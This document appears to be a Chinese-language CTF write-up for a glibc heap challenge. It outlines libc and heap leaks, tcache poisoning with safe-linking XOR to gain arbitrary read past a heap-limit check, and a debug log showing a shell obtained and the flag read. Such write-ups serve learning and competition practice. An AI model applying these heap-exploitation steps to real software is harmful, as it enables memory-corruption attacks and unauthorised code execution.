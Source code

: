 # 思路
## 常规泄漏heap，libc
- 1. tcache打满
- 2. free后进unsortbin
- 3. create(p1), create(p2)
- 4. show(p1)泄漏libc，存放main_arena偏移
- 5. show(p2)泄漏heap, 存放heap偏移

## 任意地址读写
### 常规方法
- 1. 通过叠堆，制造两个chunk指向同一处，p1,p2
- 2. malloc(p3, 0x18), free(p3), free(p1)
- 3. edit(p2, address^heap>>12)     # 改写tcache的fd
- 4. mallocp1, 0x18), malloc(p2, 0x18) 
- 5. read(p2), write(p2)    

此时的chunk指向address，我们刚刚在第3步写入的地址

### 本题方法
此题中有这段代码，不能超过堆地址, 所以想通过`__libc_argv`或者`environ`来泄漏栈行不通
```
chunks[idx] = malloc(sz);
if (chunks[idx] > limit) {
    puts("hey where do you think ur going");
    // if (malloc_usable_size(chunks[idx])) free(chunks[idx])
    chunks[idx] = 0;
    break;
}
```

通过修改，能够`任意地址读的作用`, 方法如下
- 1. 通过叠堆，制造两个chunk指向同一处，p1,p2
- 2. malloc(p3, 0x18), free(p3), free(p1)   # 3个chunk大小要一致
- 3. edit(p2, address^heap>>12)     # 改写tcache的fd
- 4. malloc(p1, 0x18), malloc(0x18)  # 第一个malloc赋给p1
- 5. free(p1)
- 6. read(p2) 

内存值为：read(p2) ^ (heap >>12) ^ (address ^ 12)?

### why 内存值为：read(p2) ^ (heap >>12) ^ (address ^ 12)??
```
p1 的next计算方法：
1. next = address >> 12 ^  [address]
2. next = heap >> 12 ^ read(p)
```

```
>>> hex(0x56441f4f9cc0 >> 12 ^  0x7ffde39e91d5 ^ 0x7ff5c58f46e0 >>12)
'0x7fff78833dd8'
```
![](https://r2.20161023.xyz/pic/20250618142043832.png)
![](https://r2.20161023.xyz/pic/20250618142123744.png)

# debug
usable_size比真实size要大
```
uint16_t usable_size = sz > 0x18 ? (sz+7&~0xf)+8 : 0x18;
sizes[idx] = usable_size;
```

## main_arena
0x7f5868dfad10 - 0x7f5868bf7000 = 0x203d10

# getshell
本地exp能出，在国内打远程服务器太慢，超时被断开，需要在国外vps运行
```
[DEBUG] Sent 0x20 bytes:
    00000000  5b f7 05 27  5f 7f 00 00  2f b4 11 27  5f 7f 00 00  │[··'│_···│/··'│_···│
    00000010  2f 88 f7 26  5f 7f 00 00  50 87 fa 26  5f 7f 00 00  │/··&│_···│P··&│_···│
    00000020
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0xd bytes:
    b'flag.txt\n'
    b'run\n'
flag.txt
run
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x7c bytes:
    b'.;,;.{1_am_4_f1ag_gr3nad3_I_am_a_f14g_gren4d3_I_4m_4_fl4g_gr3nade_aHR0cHM6Ly93d3cuaW5zdGFncmFtLmNvbS9wL0RJZUg3alRwaXdNLw==}\n'
.;,;.{1_am_4_f1ag_gr3nad3_I_am_a_f14g_gren4d3_I_4m_4_fl4g_gr3nade_aHR0cHM6Ly93d3cuaW5zdGFncmFtLmNvbS9wL0RJZUg3alRwaXdNLw==}
$
```
![](https://r2.20161023.xyz/pic/20250618170726189.png)